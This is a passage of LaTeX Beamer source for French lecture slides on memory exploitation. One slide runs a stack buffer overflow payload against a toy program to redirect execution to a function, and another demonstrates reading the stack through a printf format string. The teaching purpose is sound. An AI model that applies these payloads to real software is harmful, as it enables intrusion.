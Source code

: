 \documentclass{beamer}
\newcommand{\enlight}[1]{\textit{\color{blue}#1}}
\begin{document}
\begin{frame}[fragile]
\frametitle{L'exploit en action}

\begin{lstlisting}[language=bash]
$ echo $(python3 -c "print('Joceline'+'bbbbbbbb'+'\x76\x11\x40')")
Jocelinebbbbbbbbv@
$ ./a.out $(python3 -c "print('Joceline'+'bbbbbbbb'+'\x76\x11\x40')")
Bonjour Jocelinebbbbbbbbv@ 7ffff208bff8
on est dans g!
Segmentation fault (core dumped)
\end{lstlisting}

\begin{alertblock}{Résultat}
On a bien exécuté la fonction \texttt{g()} ! Le \emph{segfault} est normal car \texttt{savedRBP} a été corrompu.
\end{alertblock}

\end{frame}



\section{Exploiter la chaîne de format de printf}

\subsection{Principe}

\begin{frame}[fragile]
\frametitle{La chaîne de format de \texttt{printf}}

On peut utiliser la chaîne de format de \texttt{printf} pour \enlight{lire sur la pile} à des zones mémoires non prévues.

\begin{lstlisting}[language=C]
#include <stdio.h>

int main(int argc, char **argv)
{
  int u=5,v=9,w=11;
  printf("u vaut %d et se trouve a l adresse %08x\n"
         "v vaut %d\nw vaut %d\n",u,&u,v);
}
\end{lstlisting}

\begin{lstlisting}[language=bash]
$ gcc -o format format.c
$ ./format
u vaut 5 et se trouve a l adresse bffff7d4
v vaut 9
\end{lstlisting}

\texttt{w} n'est pas affiché car il n'y a pas assez d'arguments.

\end{frame}
\end{document}

